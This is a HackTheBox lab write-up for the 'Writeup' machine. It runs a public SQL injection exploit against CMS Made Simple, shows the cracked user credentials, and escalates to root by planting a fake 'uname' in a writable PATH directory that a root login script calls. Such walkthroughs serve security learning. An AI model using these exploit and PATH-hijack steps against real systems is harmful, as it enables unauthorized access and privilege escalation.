 ```yaml
---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
status: 3. Complete
tags:
  - CMS-Made-Simple
  - SQL-Injection
  - privesc/relative-paths-hijacking
  - Linux
---
```

### Improved ability

- CVE Research
- Source code review
- PATH based privilege escalation

### Used tools

- nmap
- searchsploit
- pspy64

---

## Introduction & Foothold:

Let’s start with a common full **nmap** scan on the box:

```bash
$ nmap -A 10.10.10.138
```

![1.png](../../zzz_res/attachments/1.png)

The only available ports are the **port 22** (with *OpenSSH 7.4p1*) and the **port 80**, running *Apache httpd 2.4.25*. Because of this version of OpenSSH doesn’t have known vulnerability, let’s analyze the root and `/writeup/` folder (contained into the *robots.txt*) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.

![2.png](../../zzz_res/attachments/2.png)

Let’s move analyze the `/writeup/` folder:

![3.png](../../zzz_res/attachments/3.png)

Here we can find some old writeups, but nothing very useful. However, looking at the **source code**, we are able to find the first important information: the **CMS type**.

![4.png](../../zzz_res/attachments/4.png)

Now that we know our target use **CMS Made Simple**, we can search online for public exploit. Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path 
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```

## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (*46635*) is valid for every version under the 2.2.10. Download and execute the script!

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/46635)

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```

## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.

![5.png](../../zzz_res/attachments/5.png)

After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed. 

The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in `$PATH` and before the script identifies the original uname binary, *we can run arbitrary code as root and execute our escalation* (that because the `10-uanme` process run with *UID=0*, so it runs as root)

`$PATH` contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.

# Trophy

>[!quote]
>The only way of discovering the limits of the possible is to venture a little way past them into the impossible.
>
>\- Arthur C. Clarke
